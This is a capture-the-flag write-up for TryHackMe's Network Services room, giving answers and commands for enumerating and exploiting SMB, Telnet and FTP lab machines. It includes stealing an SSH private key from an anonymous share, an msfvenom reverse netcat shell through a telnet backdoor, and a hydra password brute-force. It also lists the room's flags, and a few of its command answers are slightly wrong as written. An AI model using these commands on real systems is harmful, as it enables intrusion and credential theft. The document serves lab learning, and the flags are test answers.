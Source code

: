 # TryHackMe Network Services
#TryHackMe #SMBT #Telnet #FTP

## SMB
1. What is SMB?
	SMB - Server Message Block Protocol - is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network, the smb is known as a response-request protocol
	
	- What does SMB stand for
		Server Message Block 
	- What type of protocol is SMB?
		response-request
	- What do clients connect to servers using
		tcp/ip
	- What systems does samba run on?
		Unix
2. Enumerating SMB
	- Conduct an nmap scan of your choosing, How many ports are open?
		`nmap -sC -sV IP_HERE`
		**3**
	- What ports is SMB running on?
		`139/445`
	- Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the workgroup name?
		`enum4linux IP_HERE`
		**WORKGROUP**
	- What comes up as the name of the machine?
		**POLOSMB**
	- What operating system version is running?
		**6.1**
	- What share sticks out as something we might want to investigate?
		**Profiles**
3. Exploiting SMB
	We can remotely access the SMB share using the syntax:
		smbclient //[IP]/[SHARE]
		Followed by the tags:
		-U [name] : to specify the user
		-p [port] : to specify the port
	What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?
	 	*smbclient//10.10.10.2/secret -u suit*
	Login anonymously on smbclient by typing
		`smbclient //10.10.242.205/Profiles -u Anonymous`
	Does the share allow anonymous access? Y/N?
		*Y*
	Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to? 
	 	`get "Working From Home Information.txt`
	 	*John Cactus*
	What service has been configured to allow him to work from home?
	 	*ssh*
	Okay! Now we know this, what directory on the share should we look in?
	  	*.ssh*
	This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?
	  	*id_rsa*
	What is the smb.txt flag?
		`get id_rsa`
		`chmod 600 id_rsa`
		`ssh -i id_rsa cactus@IP_HERE`
		*THM{smb_is_fun_eh?}*
4. Understanding Telnet
	- What is Telnet?    
		*Application Protocol*
	- What has slowly replaced Telnet?    *SSH*
	-  How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?
		*telnet 10.10.10.3 23*
	-  The lack of what, means that all Telnet communication is in plaintext?
		*Encryption*
	5. Enumerating Telnet
		- How many ports are open on the target machine?    
			`sudo nmap -sC -sV -p- IP_HERE`
			*1*
		- What port is this?
			8012
		- This port is unassigned, but still lists the protocol it's using, what protocol is this?
			*tcp*
		- Now re-run the nmap scan, without the -p- tag, how many ports show up as open?
			*0*
		- Here, we see that by assigning telnet to a non-standard port, it is not part of the common ports list, or top 1000 ports, that nmap scans. It's important to try every angle when enumerating, as the information you gather here will inform your exploitation stage. 
		-  Based on the title returned to us, what do we think this port could be used for?
			`telnet IP_HERE 8012`
			*a backdoor*
		-  Who could it belong to? Gathering possible usernames is an important step in enumeration.
			*Skidy*
	6. Exploiting telnet 
		- Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.
			`telnet IP_HERE 8012`
		- Great! It's an open telnet connection! What welcome message do we receive? 
			*SKIDY'S BACKDOOR.*
		- Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)
			*N*
		- Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command. 
			`sudo tcpdump ip proto \\icmp -i tun0`
		- Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)
			`.RUN ping TUN0_IP_HERE -c 1`
			*Y*
		- Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
			`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
		- What word does the generated payload start with?
			*mkfifo*
		- What would the command look like for the listening port we selected in our payload?
		 	`nc -lvp 4444`
		- What is the flag.txt?
			*THM{y0u_g0t_th3_t3ln3t_fl4g}*
7.  Understanding FTP
	- What communications model does FTP use?
		*client-server*
	- What's the standard FTP port?
		*21*
	- How many modes of FTP connection are there?    
		*2*
8. Enumerating FTP
	- How many ports are open on the target machine?  
		`sudo nmap -sC -sV -p- IP_HERE`
		*2*
	- What port is ftp running on?
		*21*
	- What variant of FTP is running on it? 
		*VSFTPD*
	- What is the name of the file in the anonymous FTP directory?
		`ftp IP_HERE 21`
		`Username: anonymous`
		`Password: `
		*PUBLIC_NOTICE.TXT*
	- What do we think a possible username could be?
		mike
9. Exploiting FTP
	- What is the password for the user "mike"?
		`hydra -l mike -P /usr/share/wordlists/rockyou.txt IP_HERE ftp`
		*password*
	- Bingo! Now, let's connect to the FTP server as this user using "ftp [IP]" and entering the credentials when prompted
		`ftp IP_HERE 21`
		`USERNAME: mike`
		`Password: password`
	- What is ftp.txt?
		*THM{y0u_g0t_th3_ftp_fl4g}*
